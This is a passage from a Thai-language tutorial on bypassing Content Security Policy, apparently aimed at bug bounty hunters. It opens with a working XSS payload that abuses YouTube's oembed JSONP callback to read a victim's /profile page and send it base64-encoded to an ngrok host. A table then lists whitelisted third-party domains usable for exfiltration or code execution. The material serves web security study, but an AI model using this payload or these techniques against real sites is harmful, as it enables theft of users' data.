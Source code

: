 หรือ

```
https://www.youtube.com/oembed?callback=alert
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>
```

## Third Party Abuse (การใช้ Third Party ในทางที่ผิด)

เมื่อเราเห็นโดเมน third-party ใน script-src หรือ connect-src directive ใน CSP เราอาจต้องมองหาโอกาสในการทำ XSS

เพื่อเรียนรู้เทคนิคการ bypass CSP ของ third-party ให้อ่าน SensePost's Blog เสมอ ผู้เขียนให้สภาพแวดล้อม lab ที่ดีพร้อมกับการแนะนำที่ละเอียด และมีโดเมน third-party จำนวนมาก บางตัวหลีกเลี่ยงไม่ได้สำหรับ web application ที่จะต้องใช้ ซึ่งมักให้โอกาสเราในการโจมตีเสมอ เช่น:

| Entity | Whitelist | Capabilities | Documentation |
|---------|-----------|--------------|---------------|
| Facebook | www.facebook.com, *.facebook.com | Exfil | No |
| Hotjar | *.hotjar.com, ask.hotjar.io | Exfil | No |
| Jsdelivr | *.jsdelivr.com, cdn.jsdelivr.net | Exec | Yes |
| Amazon CloudFront | *.cloudfront.net | Exfil, Exec | No |
| Amazon AWS | *.amazonaws.com | Exfil, Exec | No |
| Azure | .azurewebsites.net, .azurestaticapps.net | Exfil, Exec | No |
| Salesforce Heroku | *.herokuapp.com | Exfil, Exec | No |
| Google Firebase | *.firebaseapp.com | Exfil, Exec | Yes |
| Google Analytics | www.google-analytics.com | Exfil, Exec | Yes |

อย่างที่เราเห็น Jsdelivr และ Google Firebase อาจเป็นอันตรายที่สุด เพราะเราสามารถใช้พวกมันในการ execute commands ด้วยเอกสารสาธารณะแบบเปิดที่แสดงให้เราเห็นวิธีการใช้งาน ดังนั้น เมื่อเราค้นพบพวกมันใน CSP whitelist มักจะเป็นปัจจัยการโจมตีที่มีศักยภาพเสมอ

นอกจากนี้ เราสามารถเห็นความสามารถ 2 ประเภท: Exfiltrate & Execution ซึ่งหมายถึงการกระทำของการรั่วไหลข้อมูลและการ execute คำสั่งโดยพลการ พวกมันมักเกี่ยวข้องกับ CSP directives 2 ตัว:

- **connect-src**: มีประโยชน์ในการ exfiltrate ข้อมูลจากไซต์เป้าหมาย
- **script-src**: สามารถ execute code ในไซต์เป้าหมายได้

ในโปรแกรม bug bounty เว็บไซต์จำนวนมากเพิ่ม Google Analytics ใน CSP whitelist ดังนั้นจึงมีการวิจัยมากมายเกี่ยวกับวิธีการใช้ประโยชน์จาก https://www.google-analytics.com เพื่อทำการโจมตี XSS ของ third-party-domain เนื้อหาที่ดีสามารถพบได้ใน TECH & ENGINEERING BLOG และ detectify lab


